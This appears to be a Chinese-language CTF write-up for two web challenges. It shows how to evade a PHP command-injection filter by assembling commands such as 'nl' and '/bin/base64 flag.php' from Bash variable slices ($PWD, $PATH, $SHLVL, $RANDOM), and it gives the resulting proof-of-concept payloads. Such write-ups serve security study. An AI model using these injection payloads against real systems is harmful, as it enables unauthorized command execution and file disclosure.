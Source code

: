 思路为使用环境变量进行拼接

```php
# echo ${PWD} 
/root

# echo ${PWD:0:1}      #表示从0下标开始的第一个字符
/           

# echo ${PWD:~0:1}      #从结尾开始往前的第一个字符
t

# echo ${PWD:~0}      
t

# echo ${PWD:~A}       #所以字母和0具有同样作用             
t

# echo ${PATH}                            
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

$PWD和${PWD}    表示当前所在的目录	/var/www/html
${#PWD}         13		前面加个#表示当前目录字符串长度
${PWD:3}        r/www/html	代表从第几位开始截取到后面的所有字符（从零开始）
${PWD:~3}    	html	代表从最后面开始向前截取几位（从零开始）
${PWD:3:1}     	r
${PWD:~3:1} 	h
${PWD:~A}		l	这里的A其实就是表示1
${SHLVL:~A} 	1	代表数字1

    
所以${PATH:~A}${PWD:~A}为nl（当前目录为/var/www/html，最后一个字母为l）

POC:
${PATH:~A}${PWD:~A} ????????
```

## web119

在上题的基础上将PATH过滤掉了，白名单不变

```php
可以尝试构造/bin/base64 flag.php这个命令，只需要得到/和4即可，其他用?替代
    
/可以使用${PWD::1}得到，由于1被禁，所以用${SHLVL}替代
${PWD::${SHLVL}}

然后就是4，可以使用RANDOM
RANDOM是一个变量值，随机出现整数，范围为：0~32767
虽然说是随机，但并不是真正的随机，因为每次得到的随机数都一样
如果需要每次产生的随机数顺序不一样的话，可以在使用RANDOM变量前，请随意设定一个数字给RANDOM，当做随机数种子

回到构造 4 这个字符上，再Linux中，${#xxx}显示的是这个数值的位数，而如果不加 # 的话就是显示这个数原本的值，比如12345再加上#后就是5
在RANDOM中产生的随机数可以是1、2、3、4、5这个5个数，但1，2，3这三个出现的概率很低，所以基本上是4或5，因此如果要使用RANDOM的话其实也有碰运气的成分在里面，没准就撞到了正确的数

POC:
code=${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?????${#RANDOM} ????.???
多试几次后得到flag

补充：
1：${#SHLVL}=1，或者${##}、${#?}。

2：${SHLVL}=2 （SHLVL是记录多个 Bash 进程实例嵌套深度的累加器,进程第一次打开shell时$SHLVL=1，然后在此shell中再打开一个shell时$SHLVL=2。）

3：${#IFS}=3。（linux下是3，mac里是4）
```